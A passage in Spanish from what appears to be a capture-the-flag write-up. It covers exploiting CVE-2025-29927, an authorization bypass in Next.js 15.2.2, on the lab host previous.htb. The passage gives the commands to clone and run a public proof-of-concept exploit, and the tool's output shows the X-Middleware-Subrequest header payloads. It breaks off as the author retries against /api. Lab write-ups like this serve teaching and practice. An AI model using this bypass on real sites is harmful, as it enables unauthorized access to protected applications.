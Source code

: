 Vemos que hay un `Next.js` con la version `15.2.2`, si buscamos vulnerabilidades de dicha version, veremos que si la hay en concreto con el `CVE-2025-29927 (Next.js) - Authorization Bypass` por lo que vemos se puede realizar un `bypass` del `login` con esta vulnerabilidad.

Investigando un poco encontramos este repositorio donde podemos obtener informacion de como aprovecharla.

URL = [CVE-2025-29927 Exploit PoC](https://github.com/UNICORDev/exploit-CVE-2025-29927/tree/main)

Vamos a preparar nuestro entorno para que funcione.

```shell
git clone https://github.com/UNICORDev/exploit-CVE-2025-29927.git
cd exploit-CVE-2025-29927/
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

Instalado todo, vamos a probarlo de esta forma:

```shell
python3 exploit-CVE-2025-29927.py -u 'http://previous.htb/'
```

Info:

```
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2025-29927 (Next.js) - Authorization Bypass
TARGETS: http://previous.htb/
PREPARE: Target is running Next.js!
LOADING: Detecting Next.js version with Selenium...
VERSION: Target is running Next.js version 15.2.2 (Vulnerable)

PAYLOAD: {'X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware'}
EXPLOIT: Payload sent!
FAILURE: Authorization bypass header failed.

PAYLOAD: {'X-Middleware-Subrequest': 'src/middleware:src/middleware:src/middleware:src/middleware:src/middleware'}
EXPLOIT: Payload sent!
FAILURE: Authorization bypass header failed.
ERRORED: Exploitation failed! Target may not be vulnerable.
```

Pero veremos que esta fallando y es por que no estamos encontrando la `URL` del parametro especifico que es vulnerable a esta inyeccion.

Si seguimos investigando un poco y probamos en vez de la `URL` normal, la de la `/api` que vemos que esta solicitando todo el rato...

```shell
python3 exploit-CVE-2025-29927.py -u 'http://previous.htb/api'
```
